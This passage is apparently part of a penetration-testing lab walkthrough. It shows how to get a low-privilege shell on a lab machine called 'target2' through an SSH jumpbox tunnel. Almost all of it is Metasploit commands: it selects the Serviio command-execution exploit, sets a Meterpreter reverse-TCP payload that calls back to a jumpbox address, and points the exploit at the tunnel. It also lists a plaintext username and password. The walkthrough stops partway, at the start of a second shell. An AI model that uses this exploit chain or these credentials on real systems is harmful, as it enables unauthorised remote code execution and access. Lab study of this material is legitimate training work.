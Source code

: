 #### 6.1 Low Priv Shell - Reverse shell payload

target2 can be exploited without using any credentials, however, these will also work if you need an initial foothold.

credentials (dory / bLu3FisH)

```
ssh $USER@$JB1 -L 23423:$TARGET2:23423 -R $JB1:60000:127.0.0.1:60000
```

SHELL1:
```
sudo msfdb run
```

Specify the exploit to use.
```
use exploit/windows/http/ serviio_checkstreamurl_cmd_exec
```

Leverage a -L forward tunnel through one of the jumpboxes.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 23423
```

Specify payload.
```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Configure the payload to call back to one of the jumpbox's 10dot IPs.
```
set LHOST 10.1.1.10
```

```
set LPORT 60000
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

```
check
```

SHELL 2:
```
sudo msfdb run
```
